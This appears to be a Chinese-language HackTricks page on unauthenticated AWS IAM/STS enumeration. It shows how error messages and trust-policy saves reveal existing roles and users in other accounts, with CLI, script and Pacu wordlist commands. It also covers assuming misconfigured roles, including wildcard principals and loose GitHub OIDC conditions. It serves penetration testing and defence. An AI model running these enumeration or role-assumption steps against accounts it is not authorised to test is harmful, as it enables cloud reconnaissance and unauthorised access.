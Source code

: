# AWS - IAM & STS 未认证枚举

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 枚举账户中的角色和用户名

### ~~假设角色暴力破解~~

{% hint style="danger" %}
**此技术不再有效**，因为无论角色是否存在，您总是会收到此错误：

`发生错误 (AccessDenied) 在调用 AssumeRole 操作时：用户：arn:aws:iam::947247140022:user/testenv 无权执行：sts:AssumeRole 在资源上：arn:aws:iam::429217632764:role/account-balanceasdas`

您可以**通过运行以下命令进行测试**：

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

尝试**在没有必要权限的情况下假设角色**会触发 AWS 错误消息。例如，如果未授权，AWS 可能会返回：
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
此消息确认角色的存在，但表明其假设角色策略不允许您进行假设。相反，尝试**假设一个不存在的角色会导致不同的错误**：
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
有趣的是，这种**区分现有角色和不存在角色**的方法甚至适用于不同的AWS账户。只需一个有效的AWS账户ID和一个目标词汇表，就可以枚举该账户中存在的角色，而不会面临任何固有的限制。

您可以使用这个[脚本来枚举潜在的主体](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)来利用这个问题。

### 信任策略：暴力破解跨账户角色和用户

配置或更新**IAM角色的信任策略涉及定义哪些AWS资源或服务被允许假设该角色**并获取临时凭证。如果策略中指定的资源**存在**，则信任策略**成功**保存。然而，如果资源**不存在**，则会生成一个**错误**，指示提供了无效的主体。

{% hint style="warning" %}
请注意，在该资源中，您可以指定一个跨账户角色或用户：

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

这是一个策略示例：
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

如果您使用一个 **不存在的角色**，您将会发现这个 **错误**。如果角色 **存在**，策略将会 **保存** 而没有任何错误。（这个错误是针对更新的，但在创建时也适用）

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
您可以使用 [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools) 自动化此过程。

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

我们使用 [Pacu](https://github.com/RhinoSecurityLabs/pacu)：

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* 示例中使用的 `admin` 角色是 **您帐户中的一个角色，由 pacu 进行模拟** 以创建其需要创建的策略以进行枚举。

### Privesc

如果角色配置不当并允许任何人假设它：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
攻击者可以直接假设它。

## 第三方 OIDC 联邦

想象一下，你设法读取了一个访问 **AWS** 中 **角色** 的 **Github Actions 工作流**。\
这个信任可能会给予对具有以下 **信任策略** 的角色的访问：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
这个信任策略可能是正确的，但**缺乏更多条件**应该让你对其产生不信任。\
这是因为之前的角色可以被**来自 Github Actions 的任何人**假设！你应该在条件中指定其他内容，例如组织名称、仓库名称、环境、分支...

另一个潜在的错误配置是**添加一个条件**，如下所示：
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
注意在**冒号**(:)之前的**通配符**(*)。您可以创建一个组织，例如**org\_name1**并从Github Action中**假设角色**。

## 参考文献

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家(ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家(GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
